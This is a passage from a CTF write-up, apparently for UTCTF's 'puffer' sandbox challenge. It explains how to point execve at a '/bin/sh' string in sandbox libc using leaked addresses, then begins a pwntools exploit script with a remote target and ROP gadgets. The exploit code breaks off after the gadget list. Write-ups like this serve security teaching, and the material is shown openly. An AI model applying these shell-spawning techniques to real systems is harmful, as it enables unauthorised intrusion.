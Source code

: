 one thing to note, is that the execve address of '/bin/sh' must be an address in sandbox address space, not in guest address space, as in the final, the execve syscall will be executed by sandbox `loader` in the default case of `hook_syscall`

so we will use address of "/bin/sh" string in sandbox libc, calculated from the sandbox stack leaks that our guest received..



well that's a bit complicated indeed :)

but as always , you can still read the code.. *code speaks by itself* 

**some says..seeing is believing..**

![gotshell](./pics/gotshell.gif)

the exploit

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'info'

exe = ELF("loader_patched")
libc = ELF("./libc.so.6")

# shortcuts
def logbase(): log.info("libc base = %#x" % libc.address)
def logleak(name, val):  log.info(name+" = %#x" % val)
def sa(delim,data): return p.sendafter(delim,data)
def sla(delim,line): return p.sendlineafter(delim,line)
def sl(line): return p.sendline(line)
def rcu(d1, d2=0):
  p.recvuntil(d1, drop=True)
  # return data between d1 and d2
  if (d2):
    return p.recvuntil(d2,drop=True)


host, port = "puffer.utctf.live", "7132"

if args.REMOTE:
  p = remote(host,port)
else:
  p = process([exe.path,'hello'])

# gadgets in hello binary
pop_rax = 0x0000000000401001 # pop rax; ret;
pop_rdi = 0x00000000040013af # pop rdi; ret;
pop_rdx = 0x00000000040023b3 # pop rdx; ret;
```
